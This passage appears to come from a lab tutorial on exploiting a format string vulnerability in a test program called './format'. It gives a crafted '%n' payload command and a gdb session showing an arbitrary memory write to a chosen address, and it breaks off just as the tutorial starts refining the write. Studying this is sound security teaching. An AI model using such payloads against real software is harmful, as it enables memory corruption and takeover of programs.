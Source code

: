 ```asm
mov %edx,(%eax)
```

or the equivalent in Intel syntax

```asm
mov DWORD PTR [eax], edx
```

It may be different on your system, for example `edx` may be replaced by `esi`, such as

```asm
mov DWORD PTR [eax], esi
```

Update the explanations below accordingly.

Remove any core files you may have generated before testing your program:

```console
rm -f core
```

We can replace `%08x` with `%n` this should lead to segmentation fault.

```console
$ ./format "$(python -c 'import sys; sys.stdout.buffer.write(b"ABCD" + b"AAAAAAAA" * 199 + b"%175$08n")')"
Segmentation fault (core dumped)

$ gdb ./format -c core
...
Core was generated by `./format BCDEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
Program terminated with signal 11, Segmentation fault.
#0  0xf7e580a2 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb) bt
#0  0xf7e580a2 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
#1  0xf7e5deff in printf () from /lib/i386-linux-gnu/libc.so.6
#2  0x08048468 in main (argc=2, argv=0xffffd2f4) at format.c:18
(gdb) x/i $eip
=> 0xf7e580a2 <vfprintf+17906>:    mov    %edx,(%eax)
(gdb) info registers $edx $eax
edx            0x202    1596
eax            0x44434241   1145258561
(gdb) quit
```

Bingo.
We have memory write.
The vulnerable code tried to write at the address `0x44434241` (`"ABCD"` little endian) the value 1596.
The value 1596 is the amount of data wrote so far by `printf("ABCD" + 199 * "AAAAAAAA")`.

Right now, our input string has 1605 bytes (1604 with a `n` at the end).
But we can further compress it, thus making the value that we write independent of the length of the input.
